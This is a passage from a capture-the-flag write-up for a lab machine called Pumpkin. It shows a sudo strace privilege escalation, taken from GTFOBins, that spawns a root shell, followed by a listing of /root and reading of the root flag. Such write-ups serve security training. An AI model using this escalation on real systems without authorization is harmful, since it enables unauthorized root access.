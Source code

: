 Checking [GTFOBins](https://gtfobins.github.io/gtfobins/strace/#sudo) reveals that we can exploit this to elevate our privileges:

~~~
jack@Pumpkin:/$ sudo strace -o /dev/null /bin/bash
root@Pumpkin:/# id
uid=0(root) gid=0(root) groups=0(root)
~~~

# Root flag

Now, let's get the root flag

~~~
root@Pumpkin:/# cd /root
root@Pumpkin:/root# ls -la
total 60
drwx------  5 root root  4096 Jun 18  2019 .
drwxr-xr-x 22 root root  4096 Jun 14  2019 ..
-rw-------  1 root root  4991 Jun 18  2019 .bash_history
-rw-r--r--  1 root root    11 Jun 18  2019 .bash_logout
-rw-r--r--  1 root root  3106 Feb 20  2014 .bashrc
drwx------  2 root root  4096 Jun 16  2019 .cache
-rw-------  1 root root    98 Jun 18  2019 flag.txt
drwx------  2 root root  4096 Jun 16  2019 .gnupg
-rw-------  1 root root    11 Jun 20  2019 .nano_history
-rw-r--r--  1 root root   140 Feb 20  2014 .profile
drwx------  2 root root  4096 Jun 16  2019 .ssh
-rw-------  1 root root 12288 Jun 16  2019 .swp
root@Pumpkin:/root# cat flag.txt 
Congratulation! 
Jack will take care of planting your seeds. 
Hope to see you at Pumpkin Festival
~~~

